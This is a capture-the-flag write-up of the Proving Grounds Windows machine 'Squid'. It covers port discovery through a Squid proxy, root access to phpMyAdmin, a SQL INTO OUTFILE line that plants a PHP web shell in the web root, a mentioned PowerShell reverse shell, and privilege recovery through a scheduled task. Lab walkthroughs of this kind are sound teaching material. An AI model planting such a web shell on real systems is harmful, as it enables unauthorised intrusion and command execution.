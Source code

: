 ```yaml
---
title: Squid
date: 2025-04-06
categories:
- Proving Grounds
- Windows
tags:
- Proving Grounds
- Windows
---
```



# Squid 🔹
<!-- more -->

## Enumeration

![](../assets/Pasted%20image%2020250406204306.png)

Page at port `3128` is the `squid` proxy error page.

![](../assets/Pasted%20image%2020250406204544.png)

We can connect to the proxy for discovering more ports. We can use [https://github.com/aancw/spose](https://github.com/aancw/spose).

```shell
┌──(kali㉿kali)-[~/Desktop/spose]
└─$ python3 spose.py --proxy http://192.168.120.223:3128 --target 127.0.0.1
Using proxy address http://192.168.120.223:3128
127.0.0.1 3306 seems OPEN 
127.0.0.1 8080 seems OPEN  
```

A `mysql` service and a `wamp` service.
We can access the `wamp` one with `foxyproxy`.

![](../assets/Pasted%20image%2020250407180522.png)

## Initial Access

Now, accessing port `8080`, we can see the apps. Trying `root` with `phpmyadmin`.

![](../assets/Pasted%20image%2020250407180636.png)

Put a PHP shell:

```
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/wshell.php';
```

And it can be accessed in the root.

So we can put an encoded PowerShell reverse shell and...

![](../assets/Pasted%20image%2020250407180817.png)

![](../assets/Pasted%20image%2020250407180855.png)

## Privilege Escalation

![](../assets/Pasted%20image%2020250407181101.png)

We have restricted permissions. From [this resource](https://github.com/itm4n/FullPowers), we find out that when a `LOCAL SERVICE` or `NETWORK SERVICE` is configured to run with a restricted set of privileges, permissions can be recovered by creating a `scheduled task`. The new process created by the `Task Scheduler Service` will have all the default privileges of the associated user account.

So, first, create a task:

![](../assets/Pasted%20image%2020250407181715.png)

![](../assets/Pasted%20image%2020250407182151.png)

![](../assets/Pasted%20image%2020250407182323.png)

![](../assets/Pasted%20image%2020250407182350.png)

## Post Exploitation

Get the flag.

![](../assets/Pasted%20image%2020250407182404.png)

